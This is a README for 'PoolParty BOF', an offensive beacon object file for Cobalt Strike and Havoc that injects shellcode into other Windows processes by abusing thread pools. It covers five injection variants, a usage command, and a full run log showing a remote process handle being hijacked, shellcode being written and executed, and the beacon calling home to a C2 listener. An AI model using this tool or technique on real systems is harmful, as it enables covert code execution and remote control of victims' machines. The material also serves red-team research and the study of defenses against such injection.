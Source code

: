 # PoolParty BOF

A beacon object file implementation of [PoolParty Process Injection Technique](https://github.com/SafeBreach-Labs/PoolParty/) by [@_SafeBreach_](https://www.safebreach.com/) and [@_0xDeku_](https://twitter.com/_0xDeku), that abuses Windows Thread Pools. The BOF supports the 5 technique/variant:
- Insert TP_IO work item to the target process's thread pool.
- Insert TP_ALPC work item to the target process's thread pool.
- Insert TP_JOB work item to the target process's thread pool.
- Insert TP_DIRECT work item to the target process's thread pool.
- Insert TP_TIMER work item to the target process's thread pool.

I will try to keep adding remaining variants.

## Usage
```
PoolPartyBof <Process ID> <Listener Name> <Variant>
```

- Usage Examples

```
PoolPartyBof 3092 HTTPSLocal 6
[*] Opening 3092 and running PoolParty (6 Varient) with HTTPSLocal listener!
[+] host called home, sent: 313519 bytes
[+] received output:
[INFO] 	Shellcode Size: 307204 bytes
[+] received output:
[INFO] 	Starting PoolParty attack against process id: 3092
[+] received output:
[INFO]   Retrieved handle to the target process: 0000000000000670
[+] received output:
[INFO]   Hijacked I/O completion handle from the target process: 66c
[+] received output:
[INFO]   Allocated shellcode memory in the target process: 0000021331760000
[+] received output:
[INFO]   Written shellcode to the target process
[+] received output:
[INFO] 	Created job object with name `HDWCJWPZ`
[+] received output:
[INFO] 	Created TP_JOB structure associated with the shellcode
[+] received output:
[INFO] 	Allocated TP_JOB memory in the target process: 00000213313F0000
[+] received output:
[INFO] 	Written the specially crafted TP_JOB structure to the target process
[+] received output:
[INFO] 	Zeroed out job object `HDWCJWPZ` IO completion port
[+] received output:
[INFO] 	Associated job object `HDWCJWPZ` with the IO completion port of the target process worker factory
[+] received output:
[INFO] 	Assigned current process to job object `HDWCJWPZ` to queue a packet to the IO completion port of the target process worker factory
[+] received output:
[INFO] 	PoolParty attack completed.
```

![](img/PoolPartyBof.png)
![](img/PoolPartyBofHavoc.png)

> The BOF can be further used with [Process Injection Hooks](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2-extend_control-process-injection.htm) provided within Cobaltstrike, and [Rastamouse](https://twitter.com/_RastaMouse) has a perfect [blog](https://offensivedefence.co.uk/posts/cs-process-inject-kit/) too.


> Added [Havoc](https://github.com/HavocFramework/Havoc/) BOF support. You are welcome to open an issue, if something doesn't work. For [sliver C2](https://github.com/BishopFox/sliver) it partially works, but Somehow the remote process crashes when executed the shellcode.


### Credits and Orginal Work
- [Blackhat Slides](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)
- [Alon Leviev](https://twitter.com/_0xDeku)
- [SafeBreach](https://www.safebreach.com/)
